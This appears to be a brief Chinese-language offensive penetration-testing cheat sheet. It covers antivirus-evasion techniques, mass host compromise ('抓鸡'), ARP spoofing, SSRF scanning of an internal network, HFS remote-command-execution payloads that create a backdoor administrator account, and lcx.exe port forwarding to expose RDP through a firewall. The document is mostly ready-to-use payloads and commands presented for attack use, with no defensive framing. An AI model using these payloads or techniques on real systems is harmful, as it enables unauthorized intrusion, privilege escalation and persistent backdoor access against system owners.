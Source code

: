 # 工具箱

JSFinder

## 免杀

- 函数替换
- 自定义函数
- 回调函数
- 编码绕过
- 函数字符串拆分组合

[免杀-https://xz.aliyun.com/t/5152](https://xz.aliyun.com/t/5152 )

## 横向渗透

135批量抓鸡
arp欺骗-netfuke-kali arpspoof
 -内网渗透
  主机发现->存活主机(MAC,IP,计算机名)
  扫描主机-> port system 漏洞等
  攻击主机
  取得权限

## SSRF

**扫内网**
a : 192.168.38.129
b : 27.19.126.82 192.168.0.101
c : 192.168.0.106
a能链接b
b能链接c
a不能链接c
攻击者a访问： <http://192.168.0.101/ssrf/index.php?url=192.168.0.106:80>
通过b的ssrf漏洞去探针c的80端口 **192.168.0.1 ~ 192.168.0.255**

HFS命令执行
<http://127.0.0.1/?search==%00{.exec|cmd> /c net user DEF DEFHACKER123 /add.}
<http://127.0.0.1/?search==%00{.exec|cmd> /c net localgroup Administrators  DEF  /add.}

## 端口转发

实现数据连接 绕过防火墙
让内网主动将数据给到外网
a可以链接b b不能链接a
a充当内网地址 b充当外网地址

a 192.168.38.130
lcx.exe -slave 192.168.0.106 3333 127.0.0.1 3389
将本地的3389端口转发到192.168.0.106的3333端口上去

b 192.168.0.106
lcx.exe -listen 3333 1111
监听本地3333端口转发到1111
然后链接本地的1111
